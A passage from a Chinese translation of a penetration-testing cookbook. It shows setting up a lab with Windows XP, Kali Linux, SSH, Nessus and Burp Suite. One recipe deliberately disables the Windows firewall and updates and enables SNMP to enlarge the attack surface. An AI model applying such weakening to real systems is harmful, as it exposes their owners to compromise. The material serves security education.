Metasploitable 的设计初衷是安全测试教育。这是一个非常高效的工具，但必须小心处理。Metasploitable 系统绝不能暴露在任何不可信的网络中。它不应被分配公共路由的 IP 地址，并且不应使用端口转发来通过网络地址转换 (`NAT`) 接口使服务可用。

21



## 入门

## 安装 Windows Server

在你的测试中有一个 Windows 操作系统对于学习安全技能至关重要，因为它是生产系统中最常用的操作系统环境。在提供的场景中，使用了 `Windows XP SP2`（服务包 2）的安装版本。由于 `Windows XP` 是一个较旧的操作系统，在测试环境中有很多可以被利用的缺陷和漏洞。

### 准备工作

为了完成本教程讨论的任务以及书中后的一些练习，你需要获取一个 Windows 操作系统的副本。如果可能，应使用 `Windows XP SP2`，因为这是在编写本书时正在使用的操作系统。选择该操作系统的原因之一是微软不再支持它，并且可以相对容易且以几乎没有成本的方式获取。然而，由于它不再受支持，你需要从第三方供应商处购买或通过其他方法获取。获取该产品的任务交由你决定。

### 如何操作……


从 Windows XP 镜像文件启动后，将加载蓝色菜单屏幕，它将向你提出一系列问题以引导你完成安装过程。首先，你将被要求定义操作系统将安装的分区。除非你对虚拟机进行了自定义更改，否则你在这里只会看到一个选项。你可以选择快速格式化或全盘格式化。对于虚拟机来说，任何一个选项都足够了。一旦你回答了这些初步问题，你将收到一系列关于操作系统配置的问题。然后，你将被引导到以下屏幕：22





# 第 1 章

首先，你将被要求提供名称和组织。该名称被分配给创建的初始账户，但组织名称仅用于元数据目的，对操作系统的性能没有影响。接下来，你将被要求提供计算机名称和管理员密码，如下截图所示：

如果你将把系统加入网域，建议使用唯一的计算机名称。管理员密码应该是你能够记住的密码，因为你需要登录到此系统来测试或配置更改。然后，你将被要求设置日期、时间和时区。这些内容可能会自动填充，但请确保它们是正确的，因为日期和时间的配置错误可能会影响系统性能。请看下面的截图：

23


## 入手

配置好时间和日期后，你将被要求将系统分配到工作组或网域。书中讨论的大多数练习可以使用任何一种配置进行。然而，还有一些远程 SMB 审计任务（将在后续讨论），这些任务需要系统加入网域。下面的截图显示了“保护你的电脑”（Protect your PC）窗口：

安装过程完成后，将提示你通过自动更新帮助保护你的电脑。此的默认选择是启用自动更新。然而，由于我们希望增加可用的测试机会，我们将选择“现在不”（Not right now）选项。

### 工作原理……

Windows XP SP2 是任何新手安全实验室的极佳补充。由于它是一个旧的操作系统，它提供了许多可以测试和利用的漏洞。然而，随着你在渗透测试领域变得越来越精通，通过引入更新、更安全的操作系统（如 Windows 7）来进一步磨练你的技能是非常重要的。

## 增加 Windows 攻击面

为了进一步增加 Windows 操作系统上攻击面的可用性，添加漏洞软件并启用或禁用某些集成组件是非常重要的。

### 准备工作

在修改 Windows 配置以增加攻击面之前，你需要在其中一台虚拟机上安装操作系统。如果尚未完成此操作，请参阅本章中的“安装 Windows Server”配方。

24





# 第 1 章

### 如何操作

启用远程服务，尤其是未补丁的远程服务，通常是向系统中引入某些漏洞的有效方法。首先，你需要在 Windows 系统上启用简单网络管理协议（`SNMP`）。要此操作，打开左下角的开始菜单，然后点击控制面板。双击“添加或删除程序”图标，然后点击屏幕左侧的“启用或禁用 Windows 组件”链接以进入以下屏幕：

从这里，你将看到可以在操作系统上启用或禁用的组件列表。滚动到“管理和监控工具”（Management and Monitoring Tools）并双击它以打开其中的选项，如下截图所示：

25


# 入手

打开后，确保 `SNMP` 和 `WMI SNMP Provider` 的两个复选框都已勾选。这将允许对系统执行远程 `SNMP` 查询。点击确定后，这些服务的安装将开始。这些服务的安装需要 Windows XP 镜像盘，VMware 可能在虚拟机镜像完成后删除了该光盘。

如果是这种情况，你将收到弹窗请求插入光盘，如下截图所示：

要执行此操作，请访问虚拟机设置。确保启用虚拟光驱驱动器，然后浏览到主机文件系统中的 ISO 文件以添加光盘：

一旦检测到光盘，`SNMP` 服务的安装将自动完成。

Windows 组件向将在安装完成后通知你。除了添加服务外，你还应该删除操作系统包含的一些默认服务。要执行此操作，再次打开控制面板并双击“安全中心”图标。滚动到页面底部，点击“Windows 防火墙”链接并确保该功能已关闭，如下截图所示：

26



# 第 1 章

关闭 Windows 防火墙功能后，点击确定返回上一个菜单。再次滚动到底部，然后点击“自动更新”链接并确保它也已关闭。

### 工作原理……

在操作系统上启用功能性服务并禁用安全服务会极大增加被破解的风险。通过增加操作系统上存在的漏洞数量，我们也增加了学习攻击模式和利用漏洞的机会。这个特定的配方仅涉及了通过操纵 Windows 中的集成组件来增加攻击面。然而，安装具有已知漏洞的各种第三方软件包也是很有用的。

你可以在以下 URL 找到漏洞性软件包包：

- http://www.exploit-db.com/
- http://www.oldversion.com/

## 安装 Kali Linux

Kali Linux 是整套渗透测试工具军库，还将作为书中讨论的许多扫描脚本的开发环境。

27





# 入手

### 准备工作

在你的虚拟机安全测试实验室中安装 Kali Linux 之前，你需要从可靠源获取 ISO 文件（镜像文件）。你可以在 http://www.kali.org/downloads/ 下载 Kali Linux ISO。

### 如何操作

从 Kali Linux 镜像文件启动后，你将看到初始引导菜单。在这里，向下滚动到第四个选项“安装”（Install），并按 `Enter` 键开始安装过程：一旦开始，你将被引导通过一系列问题来完成安装过程。最初，你将被要求提供你的位置（国家）和语言。然后你将获得一个手动选择键盘配置或使用引导检测过程的选项。下一步将要求为系统提供一个主机名。如果系统将加入网域，请确保主机名是唯一的，如下截图所示：

28






# 第 1 章

接下来，你需要为 root 账户设置密码。建议使用相当复杂的密码，使其不易被破解。请看下面的截图：

接下来，你将被要求提供你所在的时区。系统将使用 IP


地理定位将提供对你位置的最佳推测。如果此不正确，请手动选择正确的时区：

要设置磁盘分区，使用默认方法和分区方案对于实验目的来说足够了：

29





## 入门

建议你使用镜像以确保你的 Kali Linux 软件保持最新状态：

接下来，系统会要求你提供 HTTP 代理地址。本书中所涉及的任何练习都不需要外部 HTTP 代理，因此此处可以留空：

最后，选择 `Yes` 安装 `GRUB` 引导程序，然后按 `Enter` 完成安装过程。当系统加载时，您可以使用安装期间提供的 `root` 账户和密码进行登录：

### 工作原理……

Kali Linux 是一种基于 Debian 的 Linux 发行版，它预装了大量的第三方渗透工具。虽然所有这些工具都可以独立获取和安装，但 Kali Linux 提供的组织和实现使其对于任何严肃的渗透测试人员来说都是一个非常有用的工具。

30



# 第 1 章

## 配置和使用 SSH

同时处理多个虚拟机可能会变得乏味、耗时且令人沮丧。为了减少在各个 VMware 窗口之间跳转的需求并增加虚拟系统之间通信的便利性，在每台虚拟机上配置并启用 SSH 非常有用。本食谱将讨论你如何在每台 Linux 虚拟机上使用 SSH。

### 准备工作

要在虚拟机上使用 SSH，你必须首先在主机系统上安装 SSH 客户端。SSH 客户端集成在大多数 Linux 和 OS X 系统中，并可以通过终端界面访问。如果你使用的是 `Windows` 主机，你将需要下载并安装一个 Windows 终端服务客户端。一个免费且易用的工具是 `PuTTY`。可以在 http://www.putty.org/ 下载 `PuTTY`。

### 如何操作……

起初，你将直接从图形桌面界面的终端启用 SSH。此命令需要在虚拟机客户端中直接运行。除了 Windows XP 虚拟机，实验中的所有其他虚拟机都是 Linux 发行版，应该原生支持 SSH。启用此项的技术在几乎所有 Linux 发行版中都是相同的，所示如下：

`/etc/init.d/ssh start` 命令将启动服务。如果你不是以 `root` 身份登录，则需要在该命令前加上 `sudo`。如果收到错误，可能是设备上尚未安装 SSH 守护进程。如果是这样，可以使用命令 `apt-get install ssh` 安装 SSH 守护进程。然后可以使用 `ifconfig` 获取系统的 IP 地址，该地址将用于建立 SSH 连接。一旦激活，现在就可以从主机系统通过 SSH 访问 VMware 客户系统。要这样做，最小化虚拟机并打开主机的 SSH 客户端。

31

## 入门

如果你使用 Mac OSX 或 Linux 作为主机系统，可以直接从终端调用客户端。或者，如果你在 Windows 主机上运行虚拟机，将需要使用如 `PuTTY` 等终端模拟器。在下面的示例中，通过提供 Kali 虚拟机的 IP 地址建立 SSH 会话：

```
DEMOSYS:~ jhutchens$ ssh root@172.16.36.244
The authenticity of host '172.16.36.244 (172.16.36.244)' can't be
established.
RSA key fingerprint is c7:13:ed:c4:71:4f:89:53:5b:ee:cf:1f:40:06:d9:11.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.16.36.244' (RSA) to the list of known
hosts.
root@172.16.36.244's password:
Linux kali 3.7-trunk-686-pae #1 SMP Debian 3.7.2-0+kali5 i686
The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@kali:~#
```

### 下载示例代码

你可以从 http://www.packtpub.com 账户下载你购买的所有 Packt 书籍的示例代码文件。如果你在其他地方购买了这本书，可以访问 http://www.packtpub.com/support 并注册，以便文件直接通过电子邮件发送给你。

SSH 客户端的正确用法是 `ssh [user]@[IP address]`。在提供的示例中，SSH 将使用 `root` 账户访问 Kali 系统（通过提供的 IP 地址识别）。由于主机不在你的已知主机列表中，在第一次连接时你将会被提示确认连接。要这样做，输入单词 `yes`。然后你将会被提示输入 `root` 账户的密码。输入后，你应该获得对系统的远程 shell 访问。在 Windows 中也可以通过 `PuTTY` 完成相同的过程。

你可以在本食谱“准备工作”部分提供的链接中下载它。下载后，打开 `PuTTY` 并在 Host Name 字段中输入虚拟机的 IP 地址，并确保选中了 SSH 单选按钮，如下截图所示：32





# 第 1 章

一旦设置好连接，点击 `Open` 按钮启动会话。我们会被提示输入用户名和密码。我们应该输入要连接的系统的凭据。一旦身份验证完成，我们将获得系统的远程终端访问权限，如下截图所示：

33

## 入门

通过在远程主机的 `authorized_keys` 文件中提供你的公钥，可以避免每次都进行身份验证。此过程如下：

```
root@kali:~# ls .ssh
ls: cannot access .ssh: No such file or directory
root@kali:~# mkdir .ssh
root@kali:~# cd .ssh
root@kali/.ssh# nano authorized_keys
```

首先，确保 root 目录下已存在 `.ssh` 隐藏目录。要做到这一点，请使用 `ls` 和目录名。如果不存在，使用 `mkdir` 创建目录。然后，使用 `cd` 命令将当前位置切换到该目录。接着，使用 `Nano` 或 `VIM` 创建名为 `authorized_keys` 的文件。在该文件中，你应该按照如下格式粘贴 SSH 客户端所使用的公钥：

```
DEMOSYS:~ jhutchens$ ssh root@172.16.36.244
Linux kali 3.7-trunk-686-pae #1 SMP Debian 3.7.2-0+kali5 i686
Last login: Sat May 10 22:38:31 2014 from 172.16.36.1
root@kali:~#
```


在 Kali Linux 中尝试安装 Nessus 漏洞扫描器之前，您需要获取一个插件馈源激活码。该激活码用于获取 Nessus 用于评估网络系统的审计插件。如果您打算在家里或仅在实验室中使用 Nessus，可以免费获取家庭版馈源密钥（Home Feed Key）。或者，如果您打算使用 Nessus 审计生产系统，则需要获取专业版馈源密钥（Professional Feed Key）。无论哪种情况，您都 http://www.tenable.com/products/nessus/nessus-plugins/obtain-an-activation-code 获取此激活码。

### 如何操作…

一旦获取了插件馈源激活码，您将需要从 http://www.tenable.com/products/nessus/select-your-operating-system 下载 Nessus 安装包。以下截图显示了 Nessus 可以运行的各种平台列表及其相应的安装包：

35



### 开始上手

根据您已安装的操作系统架构选择合适的安装包。选择完成后，阅读并同意 Tenable 提供的订阅协议。随后您的系统将下载安装包。点击“保存文件”（Save File），然后浏览到您想要保存的位置：

在提供的示例中，我将安装包保存到了根目录。下载完成后，您可以通过命令行完成安装。这可以通过 SSH 或通过图形化桌面上的终端按如下方式进行：

```
root@kali:~# ls
Desktop Nessus-5.2.6-debian6_i386.deb
root@kali:~# dpkg -i Nessus-5.2.6-debian6_i386.deb
Selecting previously unselected package nessus.
(Reading database ... 231224 files and directories currently installed.)
Unpacking nessus (from Nessus-5.2.6-debian6_i386.deb) ...
Setting up nessus (5.2.6) ...
nessusd (Nessus) 5.2.6 [build N25116] for Linux
Copyright (C) 1998 - 2014 Tenable Network Security, Inc
Processing the Nessus plugins...
[##################################################]
All plugins loaded
- 您可以通过输入 /etc/init.d/nessusd start 来启动 nessusd
- 然后访问 https://kali:8834/ 配置您的扫描器
root@kali:~# /etc/init.d/nessusd start
$Starting Nessus : .
```

36




## 第 1 章

使用 `ls` 命令验证安装包是否存在于当前目录。您应该会在响应中看到它。然后可以使用 Debian 包管理器 (`dpkg`) 工具安装该服务。`-i` 参数告诉管理器安装指定的包。安装完成后，可以使用命令 `/etc/init.d/nessusd start` 启动服务。Nessus 完全通过 Web 界面运行，并从其他机器轻松访问。如果您想在 Kali 系统中管理 Nessus，可以通过浏览器通过 https://127.0.0.1:8834/ 访问它。

或者，您也可以通过远程系统（例如您的主机操作系统）使用 Kali Linux 虚拟机的 IP 地址通过 浏览器访问它。在提供的示例中，从主机操作系统访问 Nessus 服务的正确 URL 是 https://172.16.36.244:8834：

默认情况下，Nessus 服务使用自签名 SSL 证书，因此您将收到不可信连接的警告。对于安全实验室用途，您可以忽略此警告并继续。可以通过展开如下截图所示的“我理解风险”（I Understand the Risks）选项来实现：

37




### 开始上手

当您展开此选项时，可以点击“添加异常”（Add Exception）按钮。这将防止您在每次尝试访问服务时都要处理此警告。将服务添加为异常后，您将看到欢迎界面。从这里，点击“开始”（Get Started）按钮。这将引导您进入以下屏幕：

必须设置的第一个配置是管理员账户和关联密码。这些凭据将用于登录和使用 Nessus 服务。输入新的用户名和密码后，点击“下一步”（Next）继续；您将看到以下屏幕：

随后您需要输入插件馈源激活码。如果您没有激活码，请参考本教程的“准备工作”（Getting ready）部分。最后，在输入激活码后，您将返回登录页面并被输入用户名和密码。在这里，您需要输入在安装过程中创建的相同凭据。以下是未来每次访问该 URL 时 Nessus 加载的默认屏幕：

38


## 第 1 章

### 工作原理…

正确安装后，Nessus 漏洞扫描器应该可以通过主机系统以及所有安装了图形化网络浏览器的虚拟机访问。这是因为 Nessus 服务托管在 TCP 端口 8834，且主机以及所有其他虚拟系统的网络接口都位于同一个私有 IP 空间。

## 在 Kali Linux 上配置 Burp Suite

Burp Suite Proxy 是最强大的 Web 应用审计工具之一。然而，它并不是一个可以轻松点击即可启动的工具。必须修改 Burp Suite 应用程序和关联浏览器的配置，以确保它们之间能够正常通信。

### 准备工作

在 Kali Linux 中初始执行 Burp Suite 无需任何操作。免费版是一个集成工具，并且已经安装。或者，如果您选择使用专业版，可以在 https://pro.portswigger.net/buy/ 购买许可证。

许可证相对便宜，且额外功能非常值得拥有。然而，免费版仍然非常有用，并向用户免费提供大部分核心功能。

39



### 开始上手

### 如何操作…

Burp Suite 是一个 GUI 工具，需要访问图形桌面才能运行。因此，Burp Suite 不能通过 SSH 使用。在 Kali Linux 中启动 Burp Suite 有两种方法。您可以在应用程序菜单中导航到 Applications | Kali Linux | Top 10 Security Tools | burpuite 来找到它。或者，您可以在 bash 终端中将其传递给 Java 解释器来执行，如下所示：

```
root@kali:~# java -jar /usr/bin/burpsuite.jar
```

一旦 Burp Suite 加载，确保代理监听器（Proxy listener）在所需的端口上激活并运行。在提供的示例中，使用了 TCP 端口 8080。可以通过选择“代理”（Proxy）标签然后选择下方的“选项”（Options）标签来验证这些配置，如下所示：

在这里，您将看到所有代理监听器的列表。如果没有，请添加一个。要与 Kali Linux 中的 IceWeasel 浏览器配合，请配置监听器监听 127.0.0.1 地址上的专用端口。同时，确保“已运行”（Running）复选框已激活。在 Burp Suite 中配置好监听器后，您还需要修改 IceWeasel 浏览器配置以通过代理路由流量。要这样做，点击屏幕顶部的 weasel 地球图标打开 IceWeasel。打开后，展开“编辑”（Edit）下拉菜单并点击“偏好”（Preferences）获取以下截图：

40





## 第 1 章

在 IceWeasel 偏好菜单中，点击顶部的“高级”（Advanced options）按钮，然后选择“网络”（Network）标签。然后，点击“连接”（Connection）标题下的“设置”（Settings）按钮。这将弹出如下所示的连接设置配置菜单：

默认情况下，代理单选按钮设置为“使用系统代理设置”（Use system proxy settings）。这需要


更改为手动代理配置。手动代理配置应与 `Burp Suite Proxy` 监听器配置相同。在提供的示例中，HTTP 代理地址被设置为 `127.0.0.1`，端口值设置为 `TCP 8080`。要捕获其他流量（例如 HTTPS），点击 `Use this proxy server for all protocols` 复选框。要验证所有操作运行正常，请尝试如后续截图所示使用 `IceWeasel` 浏览器访问网站：

41



## 入门

如果你的配置正确，你应该看到浏览器正尝试连接，但浏览器中不会渲染任何内容。这是因为从浏览器发送的请求被代理拦截了。代理拦截是 `Burp Suite` 使用的默认配置。要确认请求已成功捕获，请返回所示的 `Burp Suite Proxy` 界面：

在这里，你应该看到被捕获的请求。若要继续使用浏览器进行其他用途，你可以点击 `Intercept is on` 按钮将其禁用，将代理配置更改为被动监听；或者你可以将浏览器中的代理设置改回 `Use system proxy settings` 选项，仅在使用 `Burp` 时使用手动代理设置。

### 工作原理……

在 `Burp Suite` 中进行的初始配置在 `TCP 8080` 上创建了一个监听端口。该端口用于 `Burp Suite` 拦截所有 Web 流量，并接收响应返回的传入流量。通过将 `IceWeasel` 浏览器的代理配置指向此端口，我们指示浏览器中生成的所有流量都应该通过 `Burp Suite Proxy` 路由。得于 `Burp` 提供的功能，我们现在可以随意修改传输中的流量。

## 使用文本编辑器（VIM 和 Nano）

文本编辑器将频繁用于创建或修改文件系统中的现有文件。当你要在 `Kali` 中创建自定义脚本时，都应该使用文本编辑器。当你想要修改配置文件或现有的渗透测试工具时，也应该使用文本编辑器。

42

## 第一章

### 准备工作

在 `Kali Linux` 中使用文本编辑器工具之前无需采取额外的步骤。`VIM` 和 `Nano` 都是集成工具，已安装在操作系统中。

### 如何操作……

要在 `Kali` 中使用 `VIM` 文本编辑器创建文件，请使用 `vim` 命令后跟要创建或修改的文件名：

```bash
root@kali:~# vim vim_demo.txt
```

在提供的示例中，`VIM` 被用于创建一个名为 `vim_demo.txt` 的文件。由于当前活动目录下不存在该名称的文件，`VIM` 会自动创建一个新文件并打开一个空白文本编辑器。要开始向编辑器输入文本，请按 `I` 键或 `Insert` 按钮。

然后，按照所示输入所需的文本：

```text
Write to file demonstration with VIM
~
~
~
~
```

在提供的示例中，文本文件中仅添加了一行。然而，在大多数情况下，你在创建新文件时很可能会使用多行。完成后，按 `Esc` 键退出插入模式并进入 `VIM` 的命令模式。然后，输入 `:wq` 并按 `Enter` 键保存。随后你可以使用以下 bash 命令验证文件是否存在并验证文件内容：

```bash
root@kali:~# ls
Desktop vim_demo.txt
root@kali:~# cat vim_demo.txt
Write to file demonstration with VIM
```

`ls` 命令可查看当前目录的内容。在这里，你可以看到创建了 `vim_demo.txt` 文件。`cat` 命令可读取并显示文件内容。另一个可用的文本编辑器是 `Nano`。`Nano` 的基本用法与 `VIM` 非常相似。开始之前，使用 `nano` 命令后跟要创建或修改的文件名：

```bash
root@kali:~# nano nano_demo.txt
```

43

## 入门

在提供的示例中，`nano` 被用于打开名为 `nano_demo.txt` 的文件。由于当前不存在该名称的文件，将创建一个新文件。与 `VIM` 不同，它没有独立的命令模式和写入模式。相反，写入文件可以自动完成，并通过按 `Ctrl` 键配合特定的字母键来执行命令。这些命令列表始终显示在文本编辑器界面的底部：`GNU nano 2.2.6 File: nano_demo.txt`

```text
Write to file demonstration with Nano
```

在提供的示例中，向 `nano_demo.txt` 文件写入了一行内容。要关闭编辑器，你可以使用 `Ctrl` + `X`。系统将提示你使用 `y` 保存文件或使用 `n` 不保存。系统会要求你确认要写入的文件名。默认情况下，这将填充为执行 `Nano` 时提供的名称。然而，可以更改此值并将文件内容保存到不同的文件名，如下所示：

```bash
root@kali:~# ls
Desktop nano_demo.txt vim_demo.txt
root@kali:~# cat nano_demo.txt
Write to file demonstration with Nano
```

完成后，可以再次使用 `ls` 和 `cat` 命令分别验证文件是否已写入目录以及验证文件内容。本节教程的意图是讨论这些编辑器中每种的基本用法，以编写和操作文件。然而，需要注意的是，它们都是非常健壮的文本编辑器。

### 工作原理……

文本编辑器无非是命令行驱动的文字处理工具。这些工具中的每一个及其功能都可以在没有任何图形界面的情况下执行。由于没有任何图形组件，这些工具的开销极小且运行速度极快。因此，它们在快速修改文件或通过远程接口处理文件时非常有效。

44

## 2 发现扫描

发现扫描是识别网络上活动主机的过程。在渗透测试的背景下，这通常用于识别潜在目标。这里的目标不是在收集目标信息方面耗尽资源，而是仅仅找到目标所在地。我们发现的最终产物应该是 IP 地址列表，然后可以使用其进行分析。在本章中，我们将讨论如何使用运行在第 2 层、第 3 层和第 4 层的协议来发现网络上的主机。本章将包含以下教程：

- 使用 `Scapy` 进行第 2 层发现
- 使用 `ARPing` 进行第 2 层发现
- 使用 `Nmap` 进行第 2 层发现
- 使用 `NetDiscover` 进行第 2 层发现
- 使用 `Metasploit` 进行第 2 层发现
- 使用 `ICMP ping` 进行第 3 层发现
